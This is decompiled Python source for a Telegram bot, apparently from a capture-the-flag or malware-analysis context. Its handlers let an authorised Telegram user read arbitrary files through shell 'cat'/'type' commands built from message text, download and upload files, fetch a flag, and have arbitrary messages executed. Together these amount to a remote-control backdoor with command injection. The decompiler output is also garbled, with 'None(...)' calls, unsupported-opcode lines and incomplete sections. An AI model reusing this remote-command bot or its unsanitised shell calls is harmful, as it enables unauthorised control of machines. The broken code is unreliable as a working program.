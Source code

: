 ```python
def injectFlag(message):
    if not verify_telegram_id(message.from_user.id):
        return None
    Flag = None('type flag.txt')
    bot.reply_to(message, Flag)

injectFlag = bot.message_handler([
    'flag'], **('commands',))(injectFlag)

def view_file(message):
    if not verify_telegram_id(message.from_user.id):
        return None
    if None(message.text.split(' ')) != 2:
        return None
    file_path = None.text.split(' ')[1]
    result = ''
    if platform.system() == 'Windows':
        result = execute_system_command(f'''type {file_path}''')
    else:
        result = execute_system_command(f'''cat {file_path}''')
    bot.reply_to(message, result)

view_file = bot.message_handler([
    'viewFile'], **('commands',))(view_file)

def download_file(message):
Unsupported opcode: RERAISE
    if not verify_telegram_id(message.from_user.id):
        return None
    if None(message.text.split(' ')) != 2:
        return None
    file_path = None.text.split(' ')[1]
# WARNING: Decompyle incomplete

download_file = bot.message_handler([
    'downloadFile'], **('commands',))(download_file)

def handle_document_upload(message):
Unsupported opcode: RERAISE
    if not verify_telegram_id(message.from_user.id):
        return None
# WARNING: Decompyle incomplete

handle_document_upload = bot.message_handler([
    'document'], **('content_types',))(handle_document_upload)

def handle_any_command(message):
    if not verify_telegram_id(message.from_user.id):
        return None
    if None.text.startswith('/start'):
        return None
    response = None(message.text)
    bot.reply_to(message, response)

handle_any_command = bot.message_handler()(handle_any_command)
bot.infinity_polling()
```
